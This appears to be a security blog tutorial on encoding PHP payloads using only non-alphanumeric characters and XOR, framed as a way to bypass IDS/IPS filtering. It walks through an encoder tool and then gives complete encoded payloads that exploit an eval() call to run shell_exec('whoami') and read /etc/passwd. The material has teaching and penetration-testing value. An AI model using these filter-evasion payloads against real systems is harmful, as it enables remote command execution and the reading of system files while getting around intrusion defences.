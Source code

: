 ```yaml
---
title: Bypass with PHP non-alpha encoder 
layout: post
author: mucomplex
description: This useful when you encounter IDS/IPS prevention which need to bypass PHP code execution
---
```


In this tutorial, I will cover PHP non-alpha encoder. I will show some basic concept first before we going deeper which may cause brain damage. muehehe <br>

A     | B     |     XOR A&B
--------|-------|-------------------
0       | 0     |          0
1       | 0     |          1
0       | 1     |          1
1       | 1     |          0

so if 'A' xor 'A' should be 0. as example below: <br>
![Image 1](/images/PHP_Non-Alpha/Selection_001.png)<br><br>

now lets try 'A' xor '1' : <br>
![Image 2](/images/PHP_Non-Alpha/Selection_002.png)<br><br>

Wait what?.. how it can be 'p' ? .. what's the logic there?. Okay, okay.. I'm going back to basic.<br>
![Image 3](/images/PHP_Non-Alpha/ascii.gif)<br><br>

By opening online calculator <br>
![Image 4](/images/PHP_Non-Alpha/Selection_003.png)<br><br>
In hex, 'A' is '0x41' and '1' is '0x31' , it is not really 0x01. So after xor the value, it get '0x70' which may be the alphabet of 'p' in ascii table <br>

Okay now, what is non-alpha?<br>
**Non-alphanumeric characters that are considered to be symbols are also treated as white space.** <br>
The question is?.. can non-alpha be constructing to become strings?.. answer: Yes!! <br>

Okay, let's take a look again. in hex table, I will use hex 0x20 to 0x40 and 0x7B until 0x7E, so it is not in alphabet range. so with this combination, I try to construct a string <br>
![Image 5](/images/PHP_Non-Alpha/Selection_004.png)<br><br>

You have the basic concept now. Lets *fire-up* our PHP-cli (I will use php7.x).As we know variable declaration in most programming language accept a-z, A-Z,0-9 and underscore.
I will use underscore as my variable.<br>
First command I use to declare my variables '$\_;'.It will contain undefine variable, which we may assume as 'Null' or '0'.<br>
2nd, I try to increase the '$\_;' by append '++' at the end ($\_++;).Result will be numeric '1' <br>
3rd, by concate string and number, php will take first parameter as its type. ''.$\_ is string '1' . I try to xor again with 'A', it gives 'p'. I hope it is clear. <br>
![Image 6](/images/PHP_Non-Alpha/Selection_005.png)<br><br>

So let construct our string. but lazy?.. okay I made some tool for you, and study the code.<br>
[PHP\_alphanumeric\_encoder](https://github.com/mucomplex/PHP_alphanumeric_encoder) <br>

What is python argumentparser? and how to declare it?<br>
**The argparse module makes it easy to write user-friendly command-line interfaces. The program defines what arguments it requires, and argparse will figure out how to parse those out of sys.argv. The argparse module also automatically generates help and usage messages and issues errors when users give the program invalid arguments.** <br>

![Image 7](/images/PHP_Non-Alpha/Selection_006.png)<br><br>

Then I initialize php\_encoder class with 3 arguments which is payload,method and badchar. I also create symbolic\_list by using string.digits + string.printable[62:94] . <br>
Finally I create list of 'xor' and 'or' non-alpha to be store. <br>

![Image 8](/images/PHP_Non-Alpha/Selection_007.png)<br><br>

Below is function replacing badchar with ''. <br>
![Image 9](/images/PHP_Non-Alpha/Selection_008.png)<br><br>
php\_encoder is check: <br>
1. check if successfully encode all payload character.
2. iteration of xor non-apha and non-alpha.
3. if payload contain non-alpha.It directly pickup the non-alpha character.
4. else it will 'xor' and check if match, it append to the list.
![Image 10](/images/PHP_Non-Alpha/Selection_009.png)<br><br>

if you look at the code, there is another logic that I use. which is 'or' encoder. you may figure out this your self. <br>
Let test the code: <br>
![Image 11](/images/PHP_Non-Alpha/Selection_010.png)<br><br>
![Image 12](/images/PHP_Non-Alpha/Selection_011.png)<br><br>

echo $\_\_($\_);  it actually same as echo shell\_exec('whoami'). <br>

Hands-on time!!! , below code is vulnerable to php-nonalpha encoder,which limit us only to write number and some symbols. <br>
![Image 13](/images/PHP_Non-Alpha/Selection_012.png)<br><br>
With same payload we craft before.Try to exploit eval function.<br>
($\_ = ('7'^'@').('7'^'_').('/'^'@').(':'^'[').('@'^'-').('['^'2')) is define for whoami .<br>
($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')) is define for shell_exec .<br>
($\_\_($\_)) is equal to shell\_exec('whoami') .<br><br>
eval('print '.($\_ = ('7'^'@').('7'^'\_').('/'^'@').(':'^'[').('@'^'-').('['^'2')).($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')).($\_\_($\_)).";"); <br>
I bracket for each variables define and execute it by calling ($\_\_($\_)) <br>
![Image 14](/images/PHP_Non-Alpha/Selection_013.png)<br><br>
![Image 14](/images/PHP_Non-Alpha/Selection_014.png)<br><br>


try with another payload 'cat /etc/password' and arrange our payload back. <br>

($\_ = ('8'^'[').('!'^'@').(')'^']').('['^'{')."/".(']'^'8').(']'^')').(']'^'>')."/".('^'^'.').('^'^'?').('\_'^',').('3'^'@').('7'^'@').('9'^']')).($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')).($\_\_($\_)) <br>

![Image 14](/images/PHP_Non-Alpha/Selection_015.png)<br><br>
![Image 14](/images/PHP_Non-Alpha/Selection_016.png)<br><br>

